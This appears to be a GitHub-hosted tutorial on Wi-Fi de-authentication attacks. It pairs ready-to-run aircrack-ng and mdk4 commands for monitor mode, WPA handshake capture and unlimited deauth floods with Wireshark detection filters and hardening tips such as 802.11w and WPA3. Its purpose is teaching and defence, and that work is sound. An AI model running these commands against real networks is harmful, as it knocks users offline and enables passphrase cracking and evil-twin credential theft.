 # Wireless (Wi-Fi) Security — De-authentication Attacks

---

## Overview
**De-Authentication attack** — a Wi-Fi **management-frame** DoS where an attacker forges 802.11 **De-authentication** frames to force clients off a Wi-Fi network.  
Attackers primarily use it to:
- perform **Evil Twin** attacks (trick clients to join a fake AP), and  
- capture the **4-Way WPA/WPA2 handshake** for offline brute-force/dictionary cracking.

---

## Agenda (covered in this document)
1. What is a De-Authentication attack?  
2. Why hackers use De-Authentication attacks.  
3. Executing a De-Authentication attack (example commands).  
4. Detecting and analysing De-Authentication attacks with **Wireshark**.  
5. Optimizing Wireshark to detect De-Authentication attacks easily.  
6. Security tips — protect your Wi-Fi network from threats.

---

## 1. What is a De-Authentication attack?
A De-Authentication attack is a management-frame denial-of-service (DoS) technique where forged 802.11 De-authentication frames are sent to clients (or broadcast) causing them to disconnect from an AP. The attacker spoofs the AP’s MAC and sends these frames, exploiting the fact that original 802.11 management frames are unauthenticated by default.

---

## 2. Why attackers use De-Authentication
- **Evil Twin:** Force clients off a legitimate AP so they connect to a malicious clone (same SSID/MAC). The attacker can capture credentials or intercept traffic.  
- **Handshake capture:** Force re-authentication to capture the 4-Way handshake between client and AP. With a captured handshake, attackers can attempt offline brute-force or dictionary attacks to recover the passphrase.

---

## 3. How 802.11 is abused
802.11 uses frames for everything. There are three primary frame types:
- **Management frames** (e.g., association, authentication, deauth)  
- **Control frames**  
- **Data frames**

**De-authentication** is a management subtype. Because management frames were historically unprotected, attackers can forge them—spoofing the AP MAC—to disconnect clients at will. (802.11w/PMF addresses this but needs support on both AP and clients.)

---

## 4. Typical attacker workflow (Kali + aircrack-ng / mdk4 examples)

> **Warning:** Only perform these techniques on networks you own or have explicit authorization to test.

### Detect wireless adapter & networks
```bash
ifconfig wlan0
iwconfig
sudo iwlist wlan0 scan | grep ESSID
nmcli device wifi list
```

### Enable monitor mode
```bash
sudo airmon-ng check
sudo airmon-ng check kill            # stop NetworkManager / dhcpcd / wpa_supplicant if needed
sudo airmon-ng start wlan0
iwconfig wlan0                        # should show Monitor mode
```

### Targeted capture (save capture for handshake)
```bash
sudo airodump-ng --bssid 66:46:D1:88:97:39 -c 1 --write /home/kali/Desktop/handshake01 wlan0
```

### Launch Deauth (aireplay-ng)
```bash
sudo aireplay-ng --deauth 0 -a 66:46:D1:88:97:39 wlan0
# 0 = unlimited (Ctrl+C to stop)
# To target a specific client: 
sudo aireplay-ng --deauth 10 -a <AP-MAC> -c <CLIENT-MAC> wlan0
```

### Alternative/efficient attacker tool: mdk4
```bash
sudo apt-get install mdk4
sudo mdk4 wlan0 d -c 11    # d = deauth, -c = channel
```

### Clean up / restore adapter
```bash
sudo airmon-ng stop wlan0
sudo modprobe -r rtl8xxxu        # example driver; replace per your adapter
sudo modprobe rtl8xxxu
sudo systemctl restart NetworkManager
sudo ip link set wlan0 down
sudo ip link set wlan0 up
```

---

## 5. Detecting & analysing De-authentication attacks with Wireshark

### Capture setup
- Use the monitor mode interface (e.g., `wlan0` in monitor).
- Prefer targeted captures (specific channel/BSSID) to reduce noise.

### Useful Wireshark filters
- **Display filter (shows deauth frames):**
```
wlan.fc.type_subtype == 12
```
- **Capture filter (applied before capture; reduces load):**
```
wlan type mgt and subtype deauth
```

### What to look for in a packet
- Many frames with **Subtype = Deauthentication (0x000c)**.
- Repeated **Transmitter/Source address** matching the AP MAC (often spoofed).
- Repeated **Reason Code** values (common when automated tools run).
- Many clients receiving deauths, or repeated deauths to the same client.

### Signs of attack
- Large volume of deauth frames in a short time.
- Frequent unexplained disconnects across multiple clients.
- Discovery of an additional AP with exactly the same SSID (possible Evil Twin).

---

## 6. Optimizing Wireshark for easy detection

### Coloring rule (highlight deauths)
1. `View → Coloring Rules → +`
2. Condition: `wlan.fc.type_subtype == 12`
3. Choose a distinct background/foreground color.

### Use capture filters to reduce noise
- Apply: `wlan type mgt and subtype deauth` at capture start.

### Target BSSID & Channel
- Use `airodump-ng` or set Wireshark to capture only on the channel and BSSID of interest.

### Correlate with external logs
- Cross-check `airodump-ng` / `mdk4` output with Wireshark captures for precise timestamps and target/client mapping.

---

## 7. Hardening & Security Tips (protect your Wi-Fi)
1. **Enable Protected Management Frames (PMF / 802.11w)** on AP and ensure clients support it. This prevents forged deauth/disassoc frames.  
2. **Use WPA3** where possible; prefer modern protocols over legacy WPA2.  
3. **Strong passphrases** — long, random passwords to defeat offline brute-force/dictionary attempts.  
4. **Change default admin user/password** on routers and keep firmware updated.  
5. **Use 802.1X (Enterprise)** for larger/critical environments (RADIUS authentication).  
6. **Disable WPS** if not required.  
7. **Educate users**: do not connect to suspicious or duplicate SSIDs; verify network before entering credentials.  
8. **Monitor** networks for repeated deauth activity; persistent floods likely indicate an attack.  
9. **Limit AP management access** (HTTPS/SSH, strong credentials, no remote admin unless necessary).  
10. **Scan for rogue APs** regularly; investigate duplicate SSIDs or MAC anomalies.

---

## Quick reference — commands & filters
- **Wireshark display:** `wlan.fc.type_subtype == 12`  
- **Wireshark capture filter:** `wlan type mgt and subtype deauth`  
- **Start monitor mode:** `sudo airmon-ng start wlan0`  
- **Targeted capture:** `sudo airodump-ng --bssid <BSSID> -c <CH> --write <file> wlan0`  
- **Deauth (aireplay-ng):** `sudo aireplay-ng --deauth <count> -a <AP-MAC> [-c <client-MAC>] wlan0`  
- **mdk4 deauth:** `sudo mdk4 wlan0 d -c <channel>`

---

## Final notes
- De-authentication is a known protocol weakness; **adoption of PMF (802.11w)** and modern Wi-Fi standards reduces risk.  
- For defenders: combine **real-time monitoring**, **capture filters**, **coloring rules**, and periodic scans to quickly spot and mitigate deauth floods.  
- For ethical testers: always obtain **explicit permission** before testing networks you do not own.

---
